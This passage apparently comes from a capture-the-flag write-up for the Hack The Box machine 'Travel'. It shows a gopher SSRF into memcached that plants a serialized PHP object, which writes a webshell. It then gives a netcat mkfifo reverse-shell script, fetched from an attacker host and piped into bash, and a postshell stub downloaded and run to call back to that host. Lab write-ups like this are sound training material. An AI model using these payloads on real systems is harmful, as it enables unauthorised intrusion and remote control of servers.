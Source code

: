 ```
END
```

Now that we have the key name, we can swap that out in our payload, and use it on the victim!

We'll visit the link with our updated payload:

http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://LOCALHOST:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20100%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:7:%22poc.php%22%3Bs:4:%22data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

Now, we just need to visit http://blog.travel.htb/awesome-rss/ to trigger it!

## Finding Our Webshell

If we look at the TemplateHelper function, it's writing to the /wp-content/themes/twentytwenty/logs/ directory, which means our shell will be at http://blog.travel.htb/WordPress/wp-content/themes/twentytwenty/logs/poc.php

http://blog.travel.htb/wp-content/themes/twentytwenty/logs/poc.php?cmd=id:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## Popping a Shell

To pop our shell, we can host the following shell.sh script on our webserver:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f
```

Now, we just need to url encode the payload and curl it into bash:

```
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/poc.php?cmd=curl%20http%3a%2f%2f10.10.xx.xx%2fshell.sh%20|%20bash

$ whoami
www-data
```

## Upgrading our Shell

This box doesn't have python or python3 installed, and the perl tty upgrade doesn't want to work. Instead, we'll use Postshell to give ourselves a fully interactive shell:

```
git clone https://github.com/rek7/postshell
cd postshell && sh compile.sh
```

Now, we can curl this onto the victim's box (since we don't have wget), chmod it and execute it:

```
cd /var/tmp
curl http://10.10.xx.xx/stub -o stub

chmod +x stub
./stub 10.10.xx.xx 4444

www-data@blog:/var/tmp$ whoami
www-data
```

